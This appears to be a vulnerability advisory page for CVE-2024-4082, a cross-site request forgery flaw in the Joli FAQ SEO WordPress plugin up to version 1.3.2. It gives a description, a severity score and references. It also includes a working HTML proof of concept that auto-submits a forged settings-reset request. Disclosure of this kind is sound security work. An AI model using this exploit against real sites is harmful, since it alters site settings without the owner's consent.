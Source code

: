 ```yaml
---
layout: page
title: CVE-2024-4082
subtitle: Joli FAQ SEO – WordPress FAQ Plugin <= 1.3.2 - Cross-Site Request Forgery
---
```

## Description
The Joli FAQ SEO – WordPress FAQ Plugin plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.3.2. This is due to missing or incorrect nonce validation when saving settings. This makes it possible for unauthenticated attackers to change the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.3.2

## PoC :
```
<html>
  <!-- eneriiiiiiii<3 -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=joli_faq_seo_settings" method="POST">
      <input type="hidden" name="jfaq&#95;reset&#95;settings" value="Reset&#32;settings" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3081648%40joli-faq-seo%2Ftrunk&old=3076380%40joli-faq-seo%2Ftrunk&sfp_email=&sfph_mail=
- https://www.cve.org/CVERecord?id=CVE-2024-4082
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/joli-faq-seo/joli-faq-seo-wordpress-faq-plugin-132-cross-site-request-forgery







